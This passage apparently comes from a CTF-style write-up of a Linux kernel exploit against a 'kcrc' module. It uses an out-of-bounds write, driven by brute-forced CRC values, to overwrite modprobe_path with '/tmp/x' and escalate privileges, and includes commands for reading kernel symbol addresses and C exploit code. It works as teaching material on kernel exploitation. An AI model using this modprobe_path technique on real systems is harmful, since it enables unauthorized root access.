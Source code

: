 1. Overwrite `idx` with the correct value to overwrite `modprobe_path`.
2. Overwrite `modprobe_path` with the path of our shell script.
3. Execute a file with an unknown file type.

I will spare the details regarding the CRC brute force, and we'll get straight to the implementation of the rest of the exploit.
I decided to overwrite the `modprobe_path` with the value `/tmp/x`.

Now, we want to find the addresses of `kcrc` and `modprobe_path`:

```shell
/ $ cat /proc/kallsyms | grep -F "[kcrc]"
...
c880e180 b kcrc [kcrc]
...
/ $ cat /proc/kallsyms | grep "modprobe_path"
c187d3c0 D modprobe_path
```

And calculate the `idx` accordingly:

```c
int32_t idx = -29246320; // (0xc187d3c0 - 0xc880e180) / 4
--idx; // it will be incremented after being overwritten.
```

Now, we will use our CRC32 brute-forcing scripts to achieve:

```c
uint32_t idx_crc[] = {0xEB40C81B};
uint32_t tmp_x_crc_lo[] = {0x24F045B3};
uint32_t tmp_x_crc_hi[] = {0xA6C3DCA5};
```

Implement a function to write our specific data using `kwrite` to achieve whatever CRC result we want:

```c
void single_write(int fd, uint32_t* buf)
{
    uint32_t wd[3] = {0xADD, buf, sizeof(uint32_t)};
    if (write(fd, wd, sizeof(wd)) != 1) {
        perror("single write");
    }
}
```

And add the writes to the end of our `main`:

```c
printf("Overwriting idx...\n");
single_write(fd, idx_crc);

printf("Overwriting modprobe_path...\n");
single_write(fd, tmp_x_crc_lo);
single_write(fd, tmp_x_crc_hi);
```
